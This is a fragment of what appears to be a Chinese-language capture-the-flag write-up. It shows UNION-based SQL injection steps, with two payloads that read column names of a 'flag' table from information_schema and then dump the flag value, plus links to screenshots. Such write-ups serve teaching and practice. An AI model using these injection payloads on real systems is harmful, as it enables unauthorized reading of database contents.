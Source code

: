 ![&#x83B7;&#x53D6;&#x5F53;&#x524D;&#x8868;&#x6240;&#x5728;&#x6570;&#x636E;&#x5E93;&#x7684;&#x6240;&#x6709;&#x8868;](../.gitbook/assets/5_5.png)

获取flag表所有列

```sql
  union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'flag'
```

![&#x83B7;&#x53D6;flag&#x8868;&#x6240;&#x6709;&#x5217;](../.gitbook/assets/5_6.png)

获取flag表中某属性的值

```sql
  union select 1,flag,3,4 from flag
```
